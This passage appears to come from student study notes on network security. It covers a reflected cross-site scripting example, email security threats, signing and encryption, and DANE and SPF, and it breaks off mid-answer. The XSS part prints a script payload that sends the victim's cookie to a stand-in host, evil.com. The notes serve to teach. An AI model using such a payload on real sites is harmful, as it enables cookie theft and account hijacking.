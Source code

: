   - When victim click this link, the browser would go to `http://bank.com/search.php` with query parameter `term = <script>window.open(\"http://evil.com/?cookie=\" + document.cookie)</script>`.

  - The server would then return with a page like:
    ```html
    <body>
      You have input:</br>
      term = <script>window.open(\"http://evil.com/?cookie=\"+document.cookie)</script>
    </body>
    ```

  - When victim's browser try to render this page, it would send a GET query to attacker(`http://evil.com`) with victim's Cookie in its body.

  - Attacker can steal victim's identity by using their Cookie now.

## 7 Email Security

### 7.1 Plaese describe common threats against Email security.

- `Authenticity-related Threats`
  Unauthorized user may *access* to an email system.

- `Integrity-related Threats`
  Email content may be *modified* by unauthorized user.

- `Confidentiality-related Threats`
  Sensitive information may be *disclosed* to unauthorized user.

- `Availability-related Threats`
  End user couldn't use the service - they could not successfully send/receive email.

### 7.2 How should an Email be protected to support both Authentication and Confidentiality?

- Authentication
  	The sender need to use SHA-256 to genereate a 256bit digest of the message first, and then encrypt it with its own private key as the signature, which would be append to plain text of message.
  	After receive the message, receiver would decrypt it with sender's public key. The identity of sender could be confirmed in this way.
- Confidentiality
      Before sending the message, the sender would generate a random 128bit number as a one-time secret key, and use it to encrypt both message and signature. The one-time key itself would be encrypted by using receiver's pubilc key.
      After receiving the message, the receiver should first use its own private key to decrypt one-time key, and then use the one-time key to decrypted the message, which ensured the confidentiality of the email content.

### 7.3 Please describe the difference among DANE, SPF and DKIM.

- `DANE`
  Prove that a certificate could be trust and use DNSSEC to ensure record could not be modified during the transportation process.
  Also allows server to securely specify exactly *which* TLS/SSL certificate an application or service should use to connect to its site.
  - Using TLSA record to specify which CA can vouch for a certificate, or which specific Public Key Infrastructure end-entity certificate is valid. Thus, a service certificate or a CA can be directly authenticated in the DNS itself.
- `SPF`
  It ensure that the host IP address of the mail truly belong to the domain name it claims.
  - ADMDs should publish SPF records(DNS TXT records) in previous to specify which hosts/IP-addresses are permitted to use their names.
  - After receiving an email, receiver would use published SPF record to check whether the source IP is permitted to user the domain name it claims to belong.